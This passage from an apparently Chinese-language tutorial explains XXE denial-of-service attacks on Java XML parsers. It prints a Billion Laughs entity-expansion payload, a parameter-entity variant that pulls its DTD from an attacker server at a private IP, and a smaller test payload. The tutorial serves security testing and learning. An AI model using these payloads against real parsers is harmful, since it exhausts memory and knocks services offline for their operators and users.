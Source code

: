 这里示例测试一些常用的，其他的更详细的以后遇到再补充吧。

### 1、DoS攻击

在Java中，XXE的DoS攻击只对低版本的JDK有效，而高版本的JDK会进行防御。

#### （2）Billion Laughs 攻击

经典的用于DoS的xml文件样例如下，原理为构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中：

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
        <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
        <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
        <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
        <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
        <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
        ]>
<lolz>&lol9;</lolz>
```

这个在其他编程语言或者JDK版本较低的Java中可利用，但在高版本JDK的环境中会报错中断解析：

![demo](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/6.png)

当然，这种类型的DoS攻击也支持参数实体的方式。将dos.xml修改如下：

```
<!DOCTYPE data SYSTEM "http://192.168.17.136:8000/dos.dtd" [
<!ELEMENT data (#PCDATA)>
]>
<data>&tea;</data>
```

在攻击者服务器放置dos.dtd：

```
<!ENTITY % a0 "dos" >
<!ENTITY % a1 "%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;">
<!ENTITY % a2 "%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;">
<!ENTITY % a3 "%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;">
<!ENTITY % a4 "%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;">
<!ENTITY tea "%a4;" >
```

自己可更换低版本JDK进行测试，这里就不演示了。

#### （2）支持实体测试

主要是利用普通实体ELEMENT，如果解析过程变的非常缓慢，则表明测试成功，即目标解析器配置不安全可能遭受至少一种DDoS攻击：

```
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```
